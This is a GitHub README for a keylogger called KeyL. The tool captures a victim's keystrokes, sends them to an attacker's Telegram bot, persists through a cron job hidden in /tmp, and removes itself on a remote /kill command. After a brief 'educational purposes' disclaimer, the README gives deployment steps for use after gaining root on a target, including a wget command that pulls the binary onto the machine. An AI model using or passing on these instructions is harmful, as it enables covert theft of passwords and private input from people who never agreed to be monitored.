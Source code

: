 # KeyL

This program records keystrokes and sends them to a telegram bot, until the attacker send the `/kill` command so the program delete itself from the target's machine.

It require root access to the target.

## Disclaimer:
This project of a Key Logger is for **educational purposes**, it has been created only with my mere knowledge. Do **not** deploy or use this code on any system without explicit permission from the owner. Misuse of this software may violate laws and going to jail for stupid reasons it's dumb.

## How2UseIt

Once you gain access to the target machine, you have to options:
1. Inject and execute the `make.sh` .
2. Paste and execute the content of `toBePasted.txt` .

But before you need to configure it for your own setup. Here's how:

1. **Set Your Telegram Token (Mandatory)**  
   Open `config.py` and insert your Telegram bot token.  
   > If you’re unsure how to get one, it's easy stuff just ask ChatGPT.

2. **Customize Logger Behavior (Optional)**  
   If you're geek enough you can configure the logger by modifying flags inside `KeyL.py`.  
   If you make changes, you'll need to build your own version to install:
   By default, `toBePasted.txt` installs the static version hosted on GitHub:
   ```bash
   wget -O /tmp/keyl https://raw.githubusercontent.com/fortigate3600/KeyL/main/keyl
   ```


### Important:
Before starting the program, send a dummy message to the Telegram bot.
This is necessary for the bot to retrieve your chat_id and be able to respond to you.

To stop the keylogger on a specific machine remotely,
send the command `/kill <machine_id>` to the Telegram bot.


## How it works
<img width="800" height="400" alt="killSwitchMechanism" src="https://github.com/user-attachments/assets/aac92346-7d68-4f4b-8460-fb7a1a382a45" />

The persistence mechanism is simple (and quite weak): if the logger process is killed, it gets respawned automatically by a cronjob calling launc.sh.
I have hidden the .sh files in the /tmp directory. I could have made it stealthier, but this project is just for academic purposes.

Once the main program calls KillSwitch.sh, the latter delete every file concerning us, and cleans the crojob.

The make.sh script (or the toBePasted.txt) creates the files shown in the image above.
Now, let’s dive into what the code does.

## Code

It monitors every keypress and stores each key in a buffer. Once the buffer reaches a certain threshold, it sends the content to a Telegram bot.

Specifically, the monitorShift() function checks whether the Shift key is being held down and communicates this through a global flag to monitorKeys(), which logs the pressed keys. If necessary, the keys are passed through a dictionary to convert them to their uppercase equivalents.




